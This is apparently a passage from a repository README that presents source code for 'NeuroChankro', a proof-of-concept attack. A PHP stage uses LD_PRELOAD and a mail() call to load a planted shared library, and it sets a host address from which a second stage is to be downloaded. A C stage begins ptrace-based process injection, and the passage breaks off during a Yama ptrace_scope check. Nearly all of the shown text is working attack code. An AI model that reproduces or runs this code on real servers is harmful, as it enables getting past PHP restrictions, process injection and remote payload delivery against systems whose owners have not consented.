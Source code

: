 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
_Sorry if the code makes you cry :(_

__Stage 0__
```php
<?php
/* NeuroChankro PoC - Stage 0 (x86_64) */
error_reporting(E_ALL);
// Save our PID so we can inject ourself here
putenv('NEUROCHANKRO=' . getmypid());
echo "Trying to inject at... " . getmypid();

// IP to contact and download the stage2
putenv('DOUBLEC=127.0.0.1');

// Do the magic
putenv('LD_PRELOAD=/var/www/html/neuro/stage1.so');
mail('a','a','a','a');
sleep(30);
?>
```
__Stage 1__
```c
/* NeuroChankro PoC - Stage 1 (x86_64) */

/* Just a simple PoC*/
/* Based on this https://blog.xpnsec.com/linux-process-injection-aka-injecting-into-sshd-for-fun/ */

#define _GNU_SOURCE


#include <arpa/inet.h>
#include <dlfcn.h>
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <signal.h>
#include <sys/mman.h>
#include <sys/ptrace.h>
#include <sys/socket.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <sys/types.h>
#include <unistd.h>
#include <wait.h>

#define LIBDLSO "libdl-2.19.so" // Just hardcoded because this is a PoC
#define CAVE_SIZE 500 // Totally random choice
#define SHM_NAME "ko.so"

// Check for ptrace_scope
int check_yama(void) {
    int fd;
    char scope[5];
    ssize_t n;

    fd = open("/proc/sys/kernel/yama/ptrace_scope", O_RDONLY);
    if (fd < 0) {
        fprintf(stderr, "[-] Error: could not open ptrace_scope\n");
        exit(-1);
    }

```